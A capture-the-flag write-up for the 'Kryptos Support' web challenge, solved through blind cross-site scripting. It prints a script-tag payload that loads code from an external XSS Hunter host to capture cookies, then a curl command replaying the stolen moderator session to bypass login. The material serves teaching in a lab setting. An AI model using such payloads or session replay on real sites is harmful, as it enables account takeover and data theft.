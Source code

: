Kryptos Support
----------
Cyber Apocalypse CTF 2022 - Intergalactic Chase

Category: Web

Points: 300

Difficulty: 1/4

# Challenge Info
```
The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona 
are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a 
support portal for the vault. Can you take a look if you can infiltrate this system?
```

# Solutions
This challenge deals with blind cross-site scripting (XSS) vulnerability. What does that mean? We can put JavaScript code into the `<textarea>` provided, however, we won't see the output of said code. Workaround? I recently learned about a tool to beat blind XSS on TryHackMe (https://tryhackme.com/room/xssgi) called XSS Hunter (https://xsshunter.com/). You could've built your own tool with JavaScript, but this is a lot faster and comes with some benefits. XSS Hunter has created payloads for you to test blind XSS. For Kryptos Support, I used `"><script src=https://pjs7593.xss.ht></script>`, `https://pjs7593.xss.ht` being a link XSS Hunter also provides unique to everyone. It worked!

XSS Hunter returned information about the webpage that couldn't be seen from inspecting the webpage's source code. It obtains the following information:
- Screenshot of the page
- Vulnerable Page URL
- Execution Origin
- User IP Address
- Referer
- Victim User-Agent
- Cookies
- DOM
- Injection Point (Raw HTTP Request)
- and the ability to generate a markdown report.

Now that we've confirmed it's blind XSS it's time to attack! From inspecting Kryptos Support's HTML pages and JavaScript pages we know there is a `/login` and `/tickets` page. Also thanks to XSS Hunter we've obtained the session ID of a user, `session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MTg0NjV9.LJ9MFwDABdTO-1XWXJ480YnguQozen8z17qncPPB64w`.

Execute`curl http://206.189.126.144:30887/tickets -b 'session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MTg0NjV9.LJ9MFwDABdTO-1XWXJ480YnguQozen8z17qncPPB64w'`


## Tickets Page
We now have access to the `tickets` page and have bypassed the login form! You'll also notice we're currently logged in as moderator!
```html
<html lang="en">
   <head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <meta http-equiv="X-UA-Compatible" content="ie=edge">
      <link rel="icon" type="image/x-icon" href="/static/images/favicon.png">
      <title>Kryptos Vault</title>
      <link rel="stylesheet" href="/static/css/tickets.css">
```
